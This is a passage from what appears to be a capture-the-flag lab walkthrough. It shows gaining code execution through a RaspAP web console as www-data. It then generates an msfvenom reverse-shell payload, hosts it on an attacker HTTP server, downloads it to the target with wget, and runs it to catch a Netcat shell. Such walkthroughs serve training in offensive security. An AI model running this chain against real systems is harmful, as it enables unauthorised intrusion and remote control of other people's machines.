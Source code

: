 We can confirm that these credentials are valid by successfully authenticating in the RaspAP web GUI (http://192.168.120.74:8091/). After logging in to the application, it looks like the web console (http://192.168.120.74:8091/includes/webconsole.php) grants us code execution as the `www-data` user.

```
  _    _      _     _____                       _                
 | |  | |    | |   /  __ \                     | |            
 | |  | | ___| |__ | /  \/ ___  _ __  ___  ___ | | ___        
 | |/\| |/ _ \ '_ \| |    / _ \| '_ \/ __|/ _ \| |/ _ \ 
 \  /\  /  __/ |_) | \__/\ (_) | | | \__ \ (_) | |  __/  
  \/  \/ \___|____/ \____/\___/|_| |_|___/\___/|_|\___| 
                 http://web-console.org
user@192.168.120.74 ~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
user@192.168.120.74 ~$ uname -a
Linux walla 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
```

Great, we get an easy RCE! The first order of business is to get a proper reverse shell. Let's generate a 64-bit Linux payload.

```
kali@kali:~$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.118.5 LPORT=4444 -f elf -o shell
...
```

We'll host it over HTTP with a python web server.

```
kali@kali:~$ sudo python3 -m http.server 80     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Next, we'll download the payload to the target and give it executable permissions.

```
user@192.168.120.74 ~$ wget http://192.168.118.5/shell -O /tmp/shell
--2021-03-04 12:41:24--  http://192.168.118.5/shell
Connecting to 192.168.118.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: '/tmp/shell'
     0K                                                       100% 30.4M=0s
2021-03-04 12:41:24 (30.4 MB/s) - '/tmp/shell' saved [194/194]
user@192.168.120.74 ~$ chmod +x /tmp/shell
```

Finally, we'll start a Netcat listener on port 4444 and then trigger our reverse shell from the web console.

```
user@192.168.120.74 ~$ /tmp/shell
...
```

Our Netcat listener successfully catches the reverse shell.
